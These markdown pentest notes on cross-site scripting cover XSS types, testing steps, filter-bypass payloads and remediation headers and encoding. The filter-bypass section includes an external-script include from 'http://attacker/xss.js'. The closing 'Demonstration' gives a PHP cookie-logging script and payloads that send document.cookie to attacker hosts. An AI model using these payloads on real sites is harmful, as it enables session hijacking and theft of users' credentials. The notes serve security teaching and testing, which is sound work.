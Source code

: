 # XSS

Cross-Site Scripting (XSS) attacks are a type of injection, in which malicious scripts are injected into trusted website.

XSS attacks occur when an attacker uses a web application to send malicious code, generally in the form of a browser side script, to a different end user.

## Impact
Malicious script can access any cookies, session tokens, or other sensitive information

## Types of XSS
- **Stored XSS (Persistent XSS)**:
When an attacker injects malicious code into the vulnerable application and this content is permanently stored in a database. when victims visit a  vulnerable application page with the stored malicious code, that time their browser execute this code and victim get popup message.

- **Reflected XSS (Non-persistent)**:
When an attacker uses a malicious link, phishing email, or another social engineering technique to trap the victim into making a request to the server and this request contains malicious code. when victim click on link then browser receive a reply with the malicious code and executes it. 

- **DOM Based XSS**:
When an HTML page is rendered in browsers, the browser downloads the HTML into local memory and automatically parses it to display the page on screen. To render a document such as an HTML page, most web browsers use an internal model like the DOM (Document Object Model) to reads the data from the DOM and executes it in the browser.

  In DOM based XSS malicious code is not sent to the server which makes it difficult to detect by web application firewalls (WAFs).

## 🔎 How to Find and Test XXS (Black Box Testing)
***1. Detect input vectors. For each web page***
- HTTP parameters
- POST data
- Hidden form field values
- Predefined Radio or Selection values

***2. Analyze each input vector to detect potential vulnerabilities***
- (greater than)>
- <(less than) 
- &(ampersand) 
- '(apostrophe or single quote) 
- "(double quote)
- e. g. <script>alert(123)</script>

***3. POC***
```
<script>alert(document.cookie)</script>
<script>alert(document.location)</script>
```

## HTML Filtered Content
- \n (new line) 
- \r (carriage return) 
- \' (apostrophe or single quote) 
- \" (double quote) 
- \\ (backslash) 
- \uXXXX (unicode values)

## Bypass XSS Filters 
Filters are based on a blacklist, they could not block every type of expressions

### e.g. payload’s:
***1. Different Syntax | Encoding***
```
" onfocus="alert(document.cookie)
"><script >alert(document.cookie)</script >
"><ScRiPt>alert(document.cookie)</ScRiPt>
"%3cscript%3ealert(document.cookie)%3c/script%3e
```
***2. Bypassing non-recursive filtering***
```
<scr<script>ipt>alert(document.cookie)</script>
```
***3. Including external script***
```
<script src="http://attacker/xss.js"></script>
http://example/?var=<SRIPT%20a=">"%20SRC="http://attacker/xss.js"></SCRIPT>
```

   - https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet (XSS Filter Evasion Cheat Sheet)
   - https://github.com/Pgaijin66/XSS-Payloads/blob/master/payload.txt
   - https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20injection

## ⛑️ Remediation     
### 1. Server-Side validation
   1. [x] ***X-XSS-Protection*** Header
   ```
   X-XSS-Protection: 0                           -> xss filter disabled
   X-XSS-Protection: 1                           -> xss filter enabled and sanitized the page if attack detected
   X-XSS-Protection: 1; mode=block               -> xss filter enabled and prevented rendering the page if attack detected
   X-XSS-Protection: 1; report=<reporting-uri>   -> xss filter enabled and reported the violation if attack detected
   ```
   2. [x] Use ***HTTPOnly*** cookie flag: `Set-Cookie: key=123081792183asjgdhasd; HTTPOnly`

   3. [x] Implement ***Content Security Policy***: `Content-Security-Policy: default-src: 'self'; script-src: 'self' static.domain.tld`
   It's a browser side mechanism which allows you to create source allow lists for client side resources of your web application, e.g. JavaScript, CSS, images, etc. CSP via special HTTP header instructs the browser to only execute or render resources from those sources

***Refrence:*** https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-XSS-Protection

### 2. Client(Application)/Server side validation

   1. [x] HTML Encode Before Inserting Untrusted Data into HTML Element Content: `<body>...ENCODE UNTRUSTED DATA BEFORE PUTTING HERE.</body>`

   2. [x] Attribute Encode Before Inserting Untrusted Data into HTML Common Attributes: `<div attr="...ENCODE UNTRUSTED DATA BEFORE PUTTING HERE.">content`

   3. [x] JavaScript Encode Before Inserting Untrusted Data into JavaScript Data Values: `<script>alert('...ENCODE UNTRUSTED DATA BEFORE PUTTING HERE.')</script>'

   4. [x] URL Encode Before Inserting Untrusted Data into HTML URL Parameter Values:`<a href="http://www.website.com?test=ENCODE UNTRUSTED DATA BEFORE PUTTING HERE">link</a>`(when you want to put untrusted data into HTTP GET parameter value)

   * [XSS Prevention Cheat Sheet](https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet)
   * [DOM based XSS Prevention Cheat Sheet](https://www.owasp.org/index.php/DOM_based_XSS_Prevention_Cheat_Sheet)
   * [Functions to Validate your Data](https://www.wordfence.com/learn/how-to-prevent-cross-site-scripting-attacks)


## XSS - Demonstration
Retrieve User Cookie Using XSS
1. Create ***steal.php*** file contect with below code.
```
<?php
$cookie=$_COOKIE['PHPSSID'];
$file=fopen('cookie.txt', 'a');
fwrite($file, $cookie . "\n\n");
?>
```
2. Create ***cookie.txt*** file on same directory.
3. Host ***steal.php*** page publicaly which can accessible through internet.
4. Insert Script on Vulnerable Parameter.
```
<script>document.location="http://hostname/steal.php"</script>
e.g:
<script>document.location="http://192.168.88.128/steal.php"</script>

<img src=a onerror=confirm(document.location="http://192.168.88.130/steal.php?cookie=" + document.cookie;)>

```
